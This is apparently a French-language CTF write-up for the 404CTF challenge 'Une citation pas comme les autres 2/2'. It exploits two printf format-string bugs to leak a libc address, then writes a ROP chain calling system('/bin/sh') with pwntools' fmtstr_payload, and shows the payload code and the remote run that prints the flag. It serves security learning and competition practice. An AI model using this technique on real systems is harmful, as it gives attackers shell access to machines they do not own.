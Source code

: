 ## PWN / Une citation pas comme les autres 2/2

<p align="center">
  <img src="img/consignes.png" />
</p>


### Look around

Le binaire est fourni : [une_citation_pas_comme_les_autres_2_2](files/une_citation_pas_comme_les_autres_2_2)

Ainsi que la libc : [libc-2.27.so](files/lic-2.27.so)

Déjà, ça sent le ROP ...


### Exploitation

Dans le code, on trouve en dur les différentes citations à souffler à Christian pour ne pas vexer Roxane et pouvoir poursuivre le dialogue.

Enfin quand c'est notre tour de nous exprimer une belle format string va encore être bien utile. En fait, deux. Et c'est tout.

```c
fgets(user_input,0x100,stdin);
len = strcspn(user_input,"\n");
user_input[len] = '\0';
printf(user_input);
puts(", dites-vous ?\nLaissez-moi votre place, je vous prie.");
fgets(user_input,0x100,stdin);
printf("[Vous] : ");
printf(user_input);
```

La première va nous permettre de faire fuiter des informations depuis la stack, notamment une adresse de retour dans la libc : `__libc_start_main+234` pour la version locale de la libc (`+231` pour la verison utilisée en remote sur le serveur)

Grâce à cela, on peut alors calculer le décalage de la libc en mémoire et préparer un ROP classique pour obtenir un `exec("/bin/sh")`

Le payload va être ensuite inscrit sur la stack grâce aux formateurs `%n` de `printf` permettant d'écrire.

Le décompte des octets etc étant assez pénible à la main, j'ai utilisé le `fmtstr_payload` de pwntools ... et c'est plus pratique !!

J'ai pas mal galéré pour pas grand chose, mon exploit ne fonctionnait pas en remote, finalement comme souvent en ajoutant un `ret` en tête des gagets ça réaligne la stack et l'appelle à system ne crash plus.

```python
payload =  fmtstr_payload(32, {
    ret_printf     :  ROP_ret,
    ret_printf +  8:  ROP_pop_rdi_ret,
    ret_printf + 16:  STR_binsh,
    ret_printf + 24:  system,
    }, write_size='short', numbwritten=0)
```



### Flag

Le code complet : [exploit.py](files/exploit.py)

```bash
$ python3 exploit.py REMOTE

start_main : 0x21ba0
pop : 0x2164f
ret : 0x8aa
system : 0x4f420
binsh : 0x1b3d88
pop : 0x7f9d4516264f
system : 0x7f9d45190420
binsh : 0x7f9d452f4d88
404CTF{CYr4N0_713N7_14_CH4ND3113_M415_V0U5_3735_D3V3NU_UN_607}
```
